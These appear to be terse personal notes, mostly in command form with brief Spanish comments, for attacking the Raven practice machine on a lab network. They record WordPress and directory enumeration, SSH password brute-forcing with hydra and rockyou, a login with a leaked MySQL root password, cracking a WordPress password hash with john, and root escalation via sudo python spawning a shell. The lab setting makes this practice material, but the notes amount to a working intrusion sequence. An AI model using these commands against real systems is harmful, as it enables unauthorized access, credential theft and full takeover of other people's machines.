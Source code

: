 
## wordpress

```bash
dirb http://192.168.78.131/
sudo gobuster dir -u http://raven.local/ -w /usr/share/wordlists/dirb/common.txt

sudo wpscan --url http://raven.local/wordpress -e u
```

## ssh

```bash
ssh michael@192.168.78.131
pass: michael (usuario sacado del wpscan)
```

## hydra

```bash
sudo hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.78.131

sudo gunzip /usr/share/wordlists/rockyou.txt.gz
sudo hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://192.168.0.10
sudo hydra -l jan -P /usr/share/wordlists/rockyou.txt
```

## mysql

```bash
mysql -u root -pR@v3nSecurity
```

## john

```bash
steven     | $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/

vi stevenhash
$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/

sudo john stevenhash
```

## sudo -l

```bash
su steven
pass encontrada con john "pink84"
bash
sudo -l

sudo python -c 'import os; os.system("/bin/bash")'
sudo python -c 'import pty; pty.spawn("/bin/bash")'

cd /root
```
